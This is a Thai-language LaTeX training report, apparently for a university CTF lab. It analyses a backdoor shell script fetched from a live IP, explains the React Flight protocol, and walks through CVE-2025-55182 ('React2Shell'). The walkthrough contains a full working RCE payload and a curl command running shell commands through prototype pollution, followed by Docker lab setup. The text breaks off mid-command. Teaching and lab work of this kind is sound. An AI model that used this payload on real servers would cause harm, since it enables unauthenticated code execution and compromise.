    
\includegraphics[width=0.85\textwidth]{images/image1.png}
    \caption{dump โค้ดจาก url ที่หลุดออกมาจาก http://194.38.11.3:1790/b.sh}
\end{figure}

จากการตรวจสอบ URL และ Dump Code ออกมา พบว่าสคริปต์นี้ถูกออกแบบมาเพื่อเป็น Backdoor โดยมีพฤติกรรมหลักดังนี้:
\begin{itemize}[leftmargin=1.5cm]
    \item \textbf{การอำพรางตัว (Masquerading):} ใช้ชื่อ \texttt{sshd} และสร้าง Service ชื่อ \texttt{system-sshd} ไว้ใน \texttt{/etc} เพื่อให้ดูเหมือน OpenSSH ของระบบจริง
    \item \textbf{การตรวจสอบสภาพแวดล้อม:} มีฟังก์ชัน \texttt{detect\_arch()} เพื่อตรวจสถาปัตยกรรมเครื่อง
    \item \textbf{การดาวน์โหลดจาก IP ตรง:} ดาวน์โหลดไฟล์โดยไม่ผ่าน Domain และปิดการตรวจ Certificate
    \item \textbf{การรันแบบซ่อน:} ใช้ \texttt{nohup} และส่ง Output ไปยัง \texttt{/dev/null}
    \item \textbf{การรักษาการคงอยู่ (Persistence):} ฝังตัวผ่าน \textbf{systemd}, \textbf{cron}, และ \textbf{rc.local}
    \item \textbf{การทำความสะอาดร่องรอย:} ปลอมแปลง Timestamp ของไฟล์และลบไฟล์ Installer ทิ้งทันที
\end{itemize}

\newpage

\section{การวิเคราะห์โค้ด (Code Analysis)}
จากสคริปต์เชลล์ดังกล่าว พบว่าสคริปต์มีพฤติกรรมที่เข้าข่ายเป็นมัลแวร์ประเภท Backdoor และ Persistence Mechanism โดยมีจุดประสงค์เพื่อฝังตัวในระบบปฏิบัติการอย่างถาวร รายละเอียดการวิเคราะห์มีดังนี้:

\subsection{การปลอมแปลงตัวตนและตรวจสอบระบบ}
สคริปต์กำหนดชื่อโปรแกรมเป็น \texttt{sshd} เพื่อหลอกลวงผู้ดูแลระบบ และมีฟังก์ชันตรวจสอบสถาปัตยกรรม (Architecture Detection) เพื่อเลือกดาวน์โหลดไฟล์ไบนารีที่เหมาะสมกับเป้าหมาย

\subsection{กลไกการคงอยู่ในระบบและการปกปิดร่องรอย}
มัลแวร์ใช้เทคนิค Anti-forensics โดยการปรับเปลี่ยนเวลาแก้ไขไฟล์ (Timestamp) ให้ดูเหมือนเป็นไฟล์ระบบดั้งเดิม และติดตั้งตัวเองผ่านหลายช่องทางเพื่อให้ยากต่อการกำจัด

% ============================================================
%  CHAPTER 3: UNDERSTANDING FLIGHT PROTOCOL
% ============================================================
\chapter{ทำความเข้าใจ React Flight Protocol}

\section{React Server Components (RSC) คืออะไร}

ก่อนที่จะเข้าใจ Flight Protocol เราต้องเข้าใจก่อนว่า React Server Components คืออะไร และแตกต่างจากการ Render แบบเดิมอย่างไร

\subsection{วิวัฒนาการของการ Render ใน React}

React มีวิวัฒนาการในการ Render มาหลายรูปแบบดังตารางที่ \ref{tab:render_modes}:

\begin{table}[ht]
    \centering
    \caption{เปรียบเทียบรูปแบบการ Render ใน Next.js}
    \vspace{0.3cm}
    \begin{tabular}{p{3cm}p{4.5cm}p{4.5cm}}
        \toprule
        \textbf{รูปแบบ} & \textbf{การทำงาน} & \textbf{ข้อดี/ข้อเสีย} \\
        \midrule
        CSR (Client-side Rendering) & ส่ง JS bundle ไปยัง Browser แล้ว render ที่ฝั่ง Client & ตอบสนองเร็ว / SEO ไม่ดี, First Load ช้า \\
        \midrule
        SSR (Server-side Rendering) & Server render HTML แล้วส่งไป, Client ``Hydrate'' HTML นั้น & SEO ดี / ส่ง HTML+JS ทั้งหมด \\
        \midrule
        RSC (React Server Components) & Component บาง Component รันเฉพาะ Server, ส่งเป็น Component Tree & ลด JS Bundle / ต้องใช้ Flight Protocol \\
        \bottomrule
    \end{tabular}
    \label{tab:render_modes}
\end{table}

\newpage

\subsection{Server Component vs Client Component}

ใน Next.js App Router ทุก Component ที่ไม่มีการระบุจะเป็น \textbf{Server Component} โดยค่าเริ่มต้น หากต้องการเป็น Client Component ต้องเขียน \texttt{'use client'} ที่บรรทัดแรก:

\begin{lstlisting}[language={[Sharp]C}, caption=ตัวอย่าง Server Component และ Client Component]
// app/page.tsx -- Server Component (default)
// รันเฉพาะบน Server, สามารถ query DB ได้โดยตรง
// ไม่มี JavaScript ส่งไปยัง Client สำหรับ component นี้
export default async function Page() {
  const data = await fetch('https://api.example.com/data')
  const json = await data.json()
  return <main>{json.title}</main>
}

// app/components/Counter.tsx -- Client Component
'use client'  // <-- บรรทัดนี้ทำให้เป็น Client Component
import { useState } from 'react'

export default function Counter() {
  const [count, setCount] = useState(0)
  return <button onClick={() => setCount(c => c + 1)}>{count}</button>
}
\end{lstlisting}

Server Component สามารถ import Client Component ได้ แต่ไม่สามารถทำกลับกัน ตรงนี้เองที่ Flight Protocol มีบทบาทสำคัญ — มันต้องส่งข้อมูลเกี่ยวกับ Component Tree จาก Server ไปยัง Client รวมถึงบอกว่า Client Component ตัวไหนต้อง hydrate ที่ตำแหน่งใด

\newpage

\section{React Flight Protocol คืออะไร}

\textbf{React Flight Protocol} (หรือ RSC Wire Format) คือโปรโตคอลที่ React ออกแบบขึ้นเพื่อ:
\begin{enumerate}
    \item \textbf{Serialize} ผลลัพธ์ของ Server Components (Component Tree) เป็น Text Stream
    \item \textbf{Stream} ข้อมูลนั้นผ่าน HTTP จาก Server ไปยัง Client แบบ Progressive
    \item \textbf{Deserialize} ที่ฝั่ง Client เพื่อ reconstruct React Element Tree สำหรับการ Hydrate
\end{enumerate}

ชื่อ ``Flight'' มาจากชื่อภายในของ React team ซึ่งใช้ในชื่อ Package \texttt{react-server-dom-webpack} และ \texttt{react-server-dom-turbopack} Content-Type ที่ใช้คือ \texttt{text/x-component} ซึ่งเป็นสัญญาณที่ใช้ตรวจจับว่าเว็บไซต์ใช้ RSC หรือไม่

\section{Wire Format ของ Flight — รูปแบบข้อมูลเชิงลึก}

\subsection{โครงสร้างพื้นฐาน}

Flight ส่งข้อมูลเป็น Text Stream โดยแต่ละ ``Chunk'' อยู่บนบรรทัดใหม่ มีรูปแบบดังนี้:

\begin{center}
\fbox{\texttt{\{chunkId\}:\{typeHint\}\{content\}}}
\end{center}

\begin{itemize}[leftmargin=1.5cm]
    \item \textbf{\texttt{chunkId}} — หมายเลข ID ของ Chunk เริ่มจาก \texttt{0} ใช้ reference ระหว่าง Chunks
    \item \textbf{\texttt{typeHint}} — ตัวอักษรที่บอกชนิดของ Chunk (ถ้าไม่มี = เป็น JSON)
    \item \textbf{\texttt{content}} — ข้อมูลจริง ซึ่งอาจเป็น JSON, ข้อความ, หรือรูปแบบพิเศษ
\end{itemize}

\newpage

\subsection{ประเภทของ Chunk}

ตารางที่ \ref{tab:chunk_types} สรุปประเภท Chunk ที่พบบ่อยใน Flight Protocol:

\begin{table}[ht]
    \centering
    \caption{ประเภทของ Chunk ใน React Flight Wire Format}
    \vspace{0.3cm}
    \begin{tabular}{lll}
        \toprule
        \textbf{Type Hint} & \textbf{ชื่อ} & \textbf{คำอธิบาย} \\
        \midrule
        (ไม่มี) & JSON Value & React Element, ข้อมูล, null, string, number \\
        \texttt{I} & Import & Reference ไปยัง Client Component Module \\
        \texttt{H} & Hint & Prefetch/Preload hint สำหรับ Browser \\
        \texttt{L} & Lazy & Lazy-loaded component (โหลดเมื่อจำเป็น) \\
        \texttt{S} & Symbol & React Symbol เช่น \texttt{Symbol.for('react.element')} \\
        \texttt{T} & Text & ข้อความธรรมดา \\
        \texttt{M} & Module & Module metadata \\
        \texttt{E} & Error & ข้อความ Error ที่เกิดบน Server \\
        \bottomrule
    \end{tabular}
    \label{tab:chunk_types}
\end{table}

\newpage

\subsection{ตัวอย่าง Flight Response จริง}

สมมติว่ามีหน้าเว็บที่มี Server Component ที่ render ข้อความ และ Client Component ชื่อ \texttt{Counter}:

\begin{lstlisting}[language=flight, caption=ตัวอย่าง Flight Wire Format Response จาก Next.js]
# Chunk 1: Import — บอก Client ว่าต้อง load Counter.tsx
1:I["(app-client)/./app/components/Counter.tsx",
     ["app/page","static/chunks/app/page.js"],
     "Counter"]

# Chunk 2: React Element Tree จาก Server Component
# ["$","type",key,props] = React.createElement(type, {key,...props})
2:["$","div",null,{
     "className":"container",
     "children":[
       ["$","h1",null,{"children":"Welcome"}],
       ["$","$L1",null,{"initialCount":0}]
     ]
   }]

# Chunk 0: Root — ห่อด้วย Layout
0:["$","main",null,{"children":"$L2"}]
\end{lstlisting}

สิ่งที่น่าสังเกต:
\begin{itemize}[leftmargin=1.5cm]
    \item \textbf{\texttt{"\$L1"}} — Lazy reference ไปยัง Chunk 1 (Client Component \texttt{Counter}) ณ ตำแหน่งที่ Client จะ Hydrate
    \item \textbf{\texttt{"\$L2"}} — Lazy reference ไปยัง Chunk 2 (Server Component Tree)
    \item รูปแบบ React Element: \texttt{["\$","type",key,props]} แทน \texttt{React.createElement}
\end{itemize}

\newpage

\section{ระบบ Reference (\$ Prefix) — หัวใจของ Flight}

Reference System คือสิ่งที่ทำให้ Flight ต่างจาก JSON ธรรมดา และยังเป็นต้นกำเนิดของช่องโหว่ในภายหลัง

\begin{table}[ht]
    \centering
    \caption{รูปแบบ Reference String ใน Flight Protocol}
    \vspace{0.3cm}
    \begin{tabular}{lll}
        \toprule
        \textbf{รูปแบบ} & \textbf{ความหมาย} & \textbf{ตัวอย่าง} \\
        \midrule
        \texttt{\$n} & Synchronous reference ไปยัง Chunk n & \texttt{"\$1"} \\
        \texttt{\$Ln} & Lazy/Client Component reference & \texttt{"\$L1"} \\
        \texttt{\$@n} & Async / Promise reference & \texttt{"\$@0"} \\
        \texttt{\$Bn} & Bound reference & \texttt{"\$B1337"} \\
        \texttt{\$n:prop} & Property traversal บน Chunk n & \texttt{"\$1:name"} \\
        \texttt{\$n:a:b:c} & Nested property path traversal & \texttt{"\$1:a:b:c"} \\
        \bottomrule
    \end{tabular}
    \label{tab:references}
\end{table}

ระบบ \textbf{Property Path Traversal} (\texttt{\$n:a:b:c}) เป็นฟีเจอร์ที่ทรงพลัง — Deserializer จะอ่าน Chunk n แล้วเดิน path \texttt{a.b.c} ลงไปเพื่อดึงค่า ตัวอย่างเช่น \texttt{"\$1:response:headers:content-type"} หมายถึง \texttt{chunks[1].response.headers["content-type"]}

\textbf{จุดสำคัญ:} เมื่อ path ที่ traverse ผ่าน \texttt{\_\_proto\_\_} หรือ \texttt{constructor} Deserializer รุ่น 15.0.4 ไม่ได้กรองออก --- นี่คือประตูสู่ช่องโหว่

\section{Server Actions และช่องทางการส่ง Payload}

\textbf{Server Actions} คือฟีเจอร์ที่ Next.js นำเสนอใน App Router ซึ่งให้ Client Component เรียก Function ฝั่ง Server ได้โดยตรงเหมือนเรียก Function ท้องถิ่น:

\begin{lstlisting}[language={[Sharp]C}, caption=ตัวอย่าง Server Action ใน Next.js]
// app/actions.ts
'use server'

export async function submitForm(formData: FormData) {
  const name = formData.get('name') as string
  return { greeting: `Hello, ${name}!` }
}
\end{lstlisting}

\newpage

เมื่อ Client เรียก Server Action สิ่งที่เกิดขึ้นเบื้องหลังคือ:

\begin{enumerate}
    \item Next.js สร้าง HTTP POST Request ไปยัง URL ปัจจุบัน
    \item Request มี Header \texttt{Next-Action: \{actionId\}} เพื่อระบุ Function ที่ต้องการเรียก
    \item Arguments ถูก Serialize ด้วย Flight และส่งเป็น \texttt{multipart/form-data}
    \item Server รับ Request, ระบุ Action, เรียก \textbf{\texttt{decodeReply()}} เพื่อ Deserialize Arguments
    \item รันค Function จริง แล้ว Serialize ผลลัพธ์กลับด้วย Flight
\end{enumerate}

\textbf{ช่องทางการโจมตี:} ขั้นตอนที่ 4 — การเรียก \texttt{decodeReply()} — เป็นจุดที่ Input จากภายนอกเข้าสู่ Flight Deserializer โดยตรง และหากเราควบคุมข้อมูลใน \texttt{multipart/form-data} ได้ เราก็ควบคุม Deserialization ได้

\section{กระบวนการ Deserialization เชิงลึก}

เพื่อทำความเข้าใจช่องโหว่ เราต้องรู้ว่า \texttt{decodeReply()} ทำงานอย่างไร:

\begin{enumerate}
    \item รับ \texttt{FormData} จาก HTTP Request Body
    \item แต่ละ Field (เช่น \texttt{"0"}, \texttt{"1"}) ถูก Parse เป็น Chunk และจัดเก็บใน Map
    \item Chunk ที่เป็น JSON Object ถูก Walk ทีละ Property
    \item เมื่อพบ Property Value ที่เป็น String ขึ้นต้นด้วย \texttt{"\$"} $\rightarrow$ เรียก \texttt{resolveReference()} เพื่อ Resolve
    \item \texttt{resolveReference()} แยกวิเคราะห์ format เช่น \texttt{"\$1:a:b"} $\rightarrow$ ดึง Chunk 1 แล้ว traverse \texttt{a.b}
    \item หลังจาก Resolve ทุก Reference แล้ว ตรวจสอบว่า Object มี \texttt{.then} property หรือไม่
    \item ถ้ามี \texttt{.then} $\rightarrow$ ถือว่าเป็น Promise $\rightarrow$ พยายาม Resolve Promise นั้น
\end{enumerate}

% ============================================================
%  CHAPTER 3: STEP-BY-STEP VULNERABILITY ANALYSIS
% ============================================================
\chapter{วิเคราะห์ช่องโหว่ทีละขั้นตอน (STEP-BY-STEP)}

\section{ภาพรวมของช่องโหว่ CVE-2025-55182}

CVE-2025-55182 หรือที่รู้จักกันในชื่อ \textbf{React2Shell} เป็นช่องโหว่ Remote Code Execution (RCE) ใน Next.js ที่เกิดจากการที่ Flight Deserializer ไม่กรอง Reference Path ที่เป็นอันตราย สรุปข้อมูลได้ดังตารางที่ \ref{tab:cve_info}:

\begin{table}[ht]
    \centering
    \caption{ข้อมูลสรุปของช่องโหว่ CVE-2025-55182}
    \vspace{0.3cm}
    \begin{tabular}{ll}
        \toprule
        \textbf{รายการ} & \textbf{ค่า} \\
        \midrule
        CVE ID & CVE-2025-55182 \\
        ชื่อ (Alias) & React2Shell \\
        ระดับความรุนแรง & Critical \\
        เวอร์ชันที่มีช่องโหว่ & Next.js $\leq$ 15.0.4 (ที่ใช้ RSC/App Router) \\
        เวอร์ชันที่แก้ไขแล้ว & Next.js $\geq$ 15.1.0 \\
        เงื่อนไขการโจมตี & Server Action ต้องถูกเปิดใช้งาน (มี \texttt{'use server'}) \\
        ผลกระทบ & Remote Code Execution บน Server โดยไม่ต้อง Auth \\
        \bottomrule
    \end{tabular}
    \label{tab:cve_info}
\end{table}

\section{ขั้นที่ 1 — ทำความเข้าใจ Attack Surface}

เมื่อเราส่ง HTTP POST ที่มี Header \texttt{Next-Action: x} ไปยัง Next.js Server ที่ใช้ App Router, Server จะเรียก \texttt{decodeReply()} โดยไม่ตรวจสอบ Action ID ว่าถูกต้องก่อน (ใน 15.0.4) กล่าวคือ \textbf{ใครก็ตามที่ส่ง Request พร้อม Header นี้จะได้รับการ Deserialize} ทำให้ตัว Deserializer เป็น Attack Surface ขนาดใหญ่

\begin{lstlisting}[language=bash, caption=การตรวจสอบว่า Server รองรับ Server Action]
# สัญญาณที่บอกว่า Server ใช้ RSC และ Server Action
curl -si http://TARGET:3000 -H "RSC: 1" | grep -i "content-type"
# ถ้าได้: Content-Type: text/x-component  --> มีช่องโหว่
\end{lstlisting}

\section{ขั้นที่ 2 — Gadget แรก: Thenable Object (Prototype Pollution)}

ใน JavaScript object ที่มี \texttt{.then} method เรียกว่า ``Thenable'' และ JavaScript Engine จะปฏิบัติเหมือน Promise Flight Deserializer ก็ทำเช่นเดียวกัน — เมื่อ resolve object ใดออกมาแล้วพบ \texttt{.then} มันจะเรียก \texttt{.then(resolve, reject)} โดยอัตโนมัติ

\textbf{การโจมตี:} เราสามารถ inject \texttt{.then} เข้าไปใน \texttt{Object.prototype} ผ่าน Reference Path \texttt{\$n:\_\_proto\_\_:then} เพราะ Deserializer ใน 15.0.4 ไม่บล็อก \texttt{\_\_proto\_\_} ใน path traversal:

\begin{lstlisting}[language=json, caption=Gadget แรก — inject .then ผ่าน Prototype Pollution]
{
  "then": "$1:__proto__:then"
}
\end{lstlisting}

ผลที่เกิดขึ้น: Deserializer resolve \texttt{"\$1:\_\_proto\_\_:then"} โดยดึง Chunk 1 มาแล้ว traverse ไป \texttt{.\_\_proto\_\_.then} ซึ่งคือ \texttt{Object.prototype.then} นั่นเอง หลังจาก assignment นี้ \textbf{Object ทุกชิ้นในระบบ} จะมี \texttt{.then} เพราะ JavaScript prototype inheritance

\section{ขั้นที่ 3 — Gadget ที่สอง: Constructor Chain (Function Factory)}

JavaScript มี ``trick'' ที่ทรงพลัง: \texttt{Function.prototype.constructor} คือ \texttt{Function} class เอง และ \texttt{Function} constructor รับ string และสร้างเป็น function:

\begin{lstlisting}[language=bash, caption=หลักการของ Constructor Chain ใน JavaScript]
# ใน JavaScript console:
> Object.prototype.constructor         # = Object  (constructor ของ Object)
> Object.prototype.constructor.constructor  # = Function (constructor ของ Function!)
> new Function("return 1+1")()         # = 2  (รัน code จาก string!)
> new Function("return process.env")() # = { ... } (เข้าถึง process ได้!)
\end{lstlisting}

\newpage

Gadget นี้ถูกฝังไว้ใน \texttt{\_formData} field:

\begin{lstlisting}[language=json, caption=Gadget ที่สอง — Constructor Chain เพื่อ eval code]
{
  "_formData": {
    "get": "$1:constructor:constructor"
  }
}
\end{lstlisting}

\texttt{"\$1:constructor:constructor"} $\rightarrow$ Chunk1.constructor.constructor $\rightarrow$ \textbf{Function} class นั่นเอง ตอนนี้ Deserializer สามารถสร้าง Function จาก string ได้แล้ว

\section{ขั้นที่ 4 — Code Injection ผ่าน \texttt{\_prefix}}

เมื่อ Flight Deserializer พยายาม ``initialize'' Response Object มันอ่าน \texttt{\_prefix} เพื่อ setup initial state ด้วย Function ที่เราสร้างจาก Step 3 ค่า \texttt{\_prefix} จะถูกนำไปรันเป็น JavaScript โดยตรง:

\begin{lstlisting}[language=json, caption=Code Injection ผ่าน \_prefix field]
{
  "_response": {
    "_prefix": "var res = process.mainModule
      .require('child_process')
      .execSync('whoami')
      .toString('base64');
      throw Object.assign(new Error('x'), {digest: res});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
\end{lstlisting}

\textbf{อธิบายโค้ด:}
\begin{itemize}[leftmargin=1.5cm]
    \item \texttt{process.mainModule.require('child\_process')} — เรียกใช้ Node.js built-in module
    \item \texttt{.execSync('whoami')} — รันคำสั่ง Shell แบบ Synchronous
    \item \texttt{.toString('base64')} — แปลงผลลัพธ์เป็น Base64 เพื่อหลีกเลี่ยงปัญหาอักขระพิเศษ
    \item \texttt{throw Object.assign(new Error('x'), \{digest: res\})} — โยน Error พร้อมแนบผลลัพธ์ไปใน Field \texttt{digest} เพื่อดึงออกมาจาก Response
\end{itemize}

\section{ขั้นที่ 5 — Payload สมบูรณ์และโครงสร้าง HTTP Request}

ได้เวลาประกอบ Gadgets ทั้งหมดเข้าด้วยกันเป็น Payload สมบูรณ์ โครงสร้าง HTTP Request มีดังนี้:

\begin{lstlisting}[language=bash, caption=โครงสร้าง HTTP Request สมบูรณ์ของ React2Shell Exploit]
POST / HTTP/1.1
Host: TARGET:3000
Next-Action: x
Content-Type: multipart/form-data; boundary=----FlightBoundary

------FlightBoundary
Content-Disposition: form-data; name="0"

{
  "then":     "$1:__proto__:then",
  "status":   "resolved_model",
  "reason":   -1,
  "value":    "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process')
      .execSync('COMMAND').toString('base64');
      throw Object.assign(new Error('x'),{digest:res});",
    "_chunks":   "$Q2",
    "_formData": {"get": "$1:constructor:constructor"}
  }
}
------FlightBoundary
Content-Disposition: form-data; name="1"

"$@0"
------FlightBoundary--
\end{lstlisting}

\subsection{อธิบาย Field สำคัญ}

\begin{enumerate}
    \item \textbf{\texttt{then}: \texttt{"\$1:\_\_proto\_\_:then"}} — ทริกเกอร์ Prototype Pollution โดยใช้ Property Path Traversal ผ่าน \texttt{\_\_proto\_\_} เพื่อ inject \texttt{.then} เข้า Object prototype
    \item \textbf{\texttt{status}: \texttt{"resolved\_model"}} — บอก Deserializer ว่า Promise นี้ ``resolved'' แล้ว เพื่อให้ดำเนินการต่อ ไม่หยุดรอ
    \item \textbf{\texttt{value}: \texttt{"\{...\}"}} — ค่าของ Promise (inner payload) ที่จะถูก Deserialize อีกชั้น
    \item \textbf{\texttt{\_prefix}} — JavaScript ที่จะถูกรันเมื่อ Response Object ถูก construct
    \item \textbf{\texttt{\_formData.get}: \texttt{"\$1:constructor:constructor"}} — สร้าง Function factory เพื่อ eval \texttt{\_prefix}
    \item \textbf{Field \texttt{"1"}: \texttt{"\$@0"}} — Async reference กลับไปยัง Chunk 0 เพื่อสร้าง circular dependency ที่บังคับให้ทั้งหมด resolve พร้อมกัน
\end{enumerate}

\section{ขั้นที่ 6 — ส่ง Exploit และถอดรหัสผลลัพธ์}

\subsection{การส่ง Exploit ด้วย cURL}

\begin{lstlisting}[language=bash, caption=ตัวอย่างการส่ง Exploit เพื่อรันคำสั่ง whoami]
curl -s http://TARGET:3000 \
  -H "Next-Action: x" \
  -F '0={"then":"$1:__proto__:then","status":"resolved_model",
"reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{
"_prefix":"var res=process.mainModule.require('"'"'child_process'"'"')
.execSync('"'"'whoami'"'"').toString('"'"'base64'"'"');throw 
Object.assign(new Error('"'"'x'"'"'),{digest:res});",
"_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}' \
  -F '1="$@0"'
\end{lstlisting}

\newpage

\subsection{Response ที่ได้รับเมื่อสำเร็จ}

เมื่อ Exploit สำเร็จ Server จะส่ง JSON Error Response กลับมาในรูปแบบ Flight:

\begin{lstlisting}[language=json, caption=Flight Error Response ที่บรรจุผลลัพธ์ RCE]
2:{"digest":"bmV4dGpzCg=="}
\end{lstlisting}

Field \texttt{digest} บรรจุผลลัพธ์ของคำสั่งในรูปแบบ Base64

\subsection{การถอดรหัสผลลัพธ์}

\begin{lstlisting}[language=bash, caption=การถอดรหัส Base64 เพื่ออ่านผลลัพธ์คำสั่ง]
echo "bmV4dGpzCg==" | base64 -d
# ผลลัพธ์: nextjs   (ชื่อ user ที่ server รันอยู่)
\end{lstlisting}

\subsection{สรุป Exploit Chain ทั้งหมด}

\begin{figure}[ht]
\centering
\begin{tikzpicture}[
  node distance=0.8cm and 0.5cm,
  box/.style={rectangle, rounded corners, draw=black, minimum width=7cm,
              minimum height=0.8cm, text centered, font=\small},
  arrow/.style={-Stealth, thick}
]
\node[box, fill=blue!15]   (s1) {ขั้นที่ 1: ส่ง POST + Next-Action Header};
\node[box, fill=orange!20, below=of s1] (s2) {ขั้นที่ 2: \texttt{decodeReply()} รับ FormData};
\node[box, fill=orange!20, below=of s2] (s3) {ขั้นที่ 3: Resolve \texttt{\$1:\_\_proto\_\_:then} $\rightarrow$ Prototype Pollution};
\node[box, fill=red!20,    below=of s3] (s4) {ขั้นที่ 4: Resolve \texttt{\$1:constructor:constructor} $\rightarrow$ Function};
\node[box, fill=red!30,    below=of s4] (s5) {ขั้นที่ 5: Run \texttt{\_prefix} เป็น JavaScript};
\node[box, fill=green!20,  below=of s5] (s6) {ขั้นที่ 6: รับ \texttt{digest} ใน Response $\rightarrow$ Base64 Decode};

\draw[arrow] (s1) -- (s2);
\draw[arrow] (s2) -- (s3);
\draw[arrow] (s3) -- (s4);
\draw[arrow] (s4) -- (s5);
\draw[arrow] (s5) -- (s6);
\end{tikzpicture}
\caption{ขั้นตอนการโจมตี React2Shell (Exploit Chain)}
\end{figure}

% ============================================================
%  CHAPTER 4: PLAYGROUND
% ============================================================
\chapter{Playground บน ctf.it.kmitl.ac.th}

\section{ภาพรวมของ Playground}

Playground ที่ \texttt{ctf.it.kmitl.ac.th} คือสภาพแวดล้อมจำลองสำหรับฝึกปฏิบัติที่พัฒนาขึ้นจาก Container Image ที่กำหนดไว้ในโปรเจกต์นี้ ประกอบด้วย 2 Labs ที่ออกแบบให้เรียนรู้จากมุมมองที่แตกต่างกัน:

\begin{table}[ht]
    \centering
    \caption{ภาพรวมของ Labs ทั้งสองใน Playground}
    \vspace{0.3cm}
    \begin{tabular}{lll}
        \toprule
        \textbf{Lab} & \textbf{บทบาทผู้เรียน} & \textbf{เป้าหมาย} \\
        \midrule
        LAB-RCE-ATTACK & Red Team / Attacker & ใช้ RCE Exploit ดึง Flag ออกมา \\
        LAB-RCE-DEFENSE & Blue Team / SysAdmin & แก้ไขช่องโหว่ แล้วรัน submit เพื่อรับ Flag \\
        \bottomrule
    \end{tabular}
    \label{tab:labs_overview}
\end{table}

Labs ทั้งสองสามารถรันบนเครื่องส่วนตัวได้ด้วย Docker ตามขั้นตอนที่อธิบายไว้ในแต่ละหัวข้อ

\section{LAB-RCE-ATTACK}

\subsection{ภาพรวมของ Lab}

Lab นี้ Build Next.js 15.0.4 ในโหมด Standalone Production สภาพแวดล้อมถูกออกแบบให้เรียบง่ายและตรงจุด: มีเพียง Next.js ที่มีช่องโหว่ รันด้วย User \texttt{nextjs} (Non-root)

โครงสร้างของ Image ใช้ Multi-stage Build โดยแบ่งออกเป็น 3 Stage ได้แก่ \textbf{base} ที่เตรียม Node.js 20-alpine พร้อม pnpm, \textbf{builder} ที่สร้างโปรเจกต์ Next.js 15.0.4 ด้วย App Router และ TypeScript แล้ว Build ในโหมด Standalone และ \textbf{runner} ที่คัดลอกเฉพาะ artifacts ที่จำเป็น จากนั้น Expose Port 3000 และรันแอปพลิเคชันด้วย User \texttt{nextjs} ที่ไม่มีสิทธิ์ root ตามหลัก Least Privilege

\newpage

\subsection{ขั้นตอนที่ 1 — รัน Lab บนเครื่องตัวเอง (Local)}

\begin{enumerate}
    \item \textbf{เข้าโฟลเดอร์และ Build Image:}
    \begin{lstlisting}[language=bash]
cd LAB-RCE-ATTACK
docker build -t lab-rce-attack .
    \end{lstlisting}

    \item \textbf{รัน Container:}
    \begin{lstlisting}[language=bash]
docker run -d --name rce-attack -p 3000:3000 lab-rce-attack
docker ps   # ยืนยันว่า rce-attack กำลัง running
    \end{lstlisting}
\end{enumerate}

\subsection{ขั้นตอนที่ 2 — ตรวจสอบ RSC Fingerprint}

ก่อนโจมตี ยืนยันว่า Server ใช้ RSC:

\begin{lstlisting}[language=bash, caption=ตรวจสอบว่า Server ใช้ RSC ด้วย cURL]
curl -si http://localhost:3000 -H "RSC: 1" | head -5
# คาดหวัง: Content-Type: text/x-component
#          Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
\end{lstlisting}

\newpage

\subsection{ขั้นตอนที่ 3 — ส่ง Exploit}

บน ctf.it.kmitl.ac.th ระบบจะฝัง Flag ไว้ใน Environment Variable แทนที่ \texttt{TARGET} ด้วย IP:Port ที่ได้รับจาก Platform:

\begin{lstlisting}[language=bash, caption=คำสั่ง Exploit สำหรับ LAB-RCE-ATTACK]
TARGET="ctf.it.kmitl.ac.th:PORT"

curl -s http://$TARGET \
